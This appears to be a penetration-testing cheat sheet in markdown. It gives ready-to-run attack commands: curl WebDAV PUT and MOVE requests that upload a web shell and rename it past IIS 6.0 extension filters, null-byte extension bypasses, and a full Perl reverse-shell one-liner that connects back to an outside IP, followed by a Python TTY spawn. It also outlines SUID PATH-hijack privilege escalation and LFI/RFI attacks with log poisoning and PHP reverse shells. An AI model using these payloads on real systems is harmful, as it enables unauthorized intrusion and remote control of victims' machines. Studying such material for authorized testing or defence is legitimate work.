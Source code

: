 # cURL

IF MODIFY, PUT, MOVE, DELE etc HEADERS are misconfigured.

#### UPLOAD
```
Curl -T ‘location of file’ ‘http://target/name
e.g
      curl -T 'shell.asp' 'http://<IPADDRESS>/shell.asp'
```

#### RENAME

CAN USE THIS TO BYPASS FILE EXTENSIONS Restrictions

```
curl -X MOVE --header 'Destination:http://<TARGETIPADDRESS>/shell.asp;.txt' 'http://<TARGETIPADDRESS>/shell.txt'
e.g
      changing from shell.txt --> shell.asp;.txt

p.s bypasses IIS 6.0 File extensions 
```

#### CREATE DIRECTORY
```
curl -X MKCOL 'http://<IPADDRESS>/test'
```

# NULL BYTES

Bypass File Extentension Restrictions

```
%23
%00
```

# ESCAPE JAIL SHELL
#### USING PERL REVERSE SHELL INTO PYTHON TTY

```
1.Return a Reverse Shell using PERL

/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'

2.    Spawn a TTY Shell
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

```

# EXPLOITING SUID FILES SYMLINK
Using strings  "exploit.file"
  - Find a dependency

Change EXPORT path to /tmp/
  - Create a binary file with the same name as dependency
  - Have this file create a reverse shell
Run the misconfigured SUID file, it will return a reverse shell using SUID


# EXPLOITING LFI / RFI
#### BASIC LFI
```
     Log Poisoning
     Using LFI to run an already uploaded backdoor
```
#### BASIC RFI
```
Create a .php reverse shell
Rename file extension to .txt  [ May need to append null bytes depending if headers are included, check apache access logs ]
Navigate to file through RFI exploit
```
